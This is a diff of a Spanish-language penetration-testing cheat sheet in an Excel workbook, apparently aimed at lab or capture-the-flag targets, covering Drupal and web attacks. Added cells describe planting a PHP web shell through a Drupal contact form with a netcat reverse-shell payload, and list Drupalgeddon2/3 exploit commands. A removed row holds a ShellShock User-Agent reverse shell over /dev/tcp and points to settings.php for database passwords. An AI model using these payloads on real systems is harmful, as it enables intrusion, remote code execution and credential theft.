

Before and after one commit to AmatheraeWorld/AmatheraeWorld, an Excel workbook: CheatSheet.xlsm, sheet Interceptadores & Web, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no cell formats; charts and pictures not drawn; removed rows and columns are numbered as before the commit, all else as after; rows hold the shown columns only; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/CheatSheet.xlsm (sheet Interceptadores & Web)
+++ b/CheatSheet.xlsm (sheet Interceptadores & Web)
-V32: ruby drupalgeddon2.rb http://10.10.10.10
+V32: Contact US --> WebForm --> FormSettings --> Poner el contenido de una shell php o una cadena de conexion de netcat en php <?php system(' nc 192.168.56.1 9999 -e /bin/bash ');?> --> Contact US --> View --> rellenar con un netcat a la escucha --> Submit --> Ya tendremos la Shell en netcat
-W32: Drupalgeddon2
+W32: Cargar shell PHP en Drupal
-X32: (empty)
+X32: Drupal 7 y 8
-V33: http://10.10.10.10/node/1
+V33: http://10.10.10.10/chanelog.txt
-W33: Nos enseña los modulos instalados
+W33: En Drupal para ver su versión
-X33: Como sacar el valor del node
+X33: (empty)
-N34: (empty)
+N34: JOOMSCAN
+N34:P34 merged
-V34: python drupalgeddon3.py http://10.10.10.10 'CookieSession' nodenumber 'command'
+V34: ruby drupalgeddon2.rb http://10.10.10.10
-W34: Drupalgeddon3 Necesitamos estar Autenticados
+W34: Drupalgeddon2
-X34: python drupalgeddon3.py [URL] [Session] [Exist Node number] [Command]
+X34: (empty)
-row 35:  |  | User-Agent: () { :; }; bash -i >& /dev/tcp/10.10.10.10/443 0>&1 | Ejemplo de ShellShock en el useragent con shell reversa |  |  |  |  | document.cookie = "Valordelacookie=SessionID;token=token" | Para añadir una cookie manual, en el modo Inspector de la pagina, en el Console, escribir: | Enter y F5 en la pagina | sites\default\settings.php | Contraseñas de la Base de Datos
```
Also changed, not shown: 34 added rows, 4 removed rows, 64 edited cells and merged cells elsewhere in this sheet, sheet Explotacion & Post-Explotacion, sheet General, sheet Enumeracion & Escaneos, sheet Inyecciones, cell formats, charts or pictures.
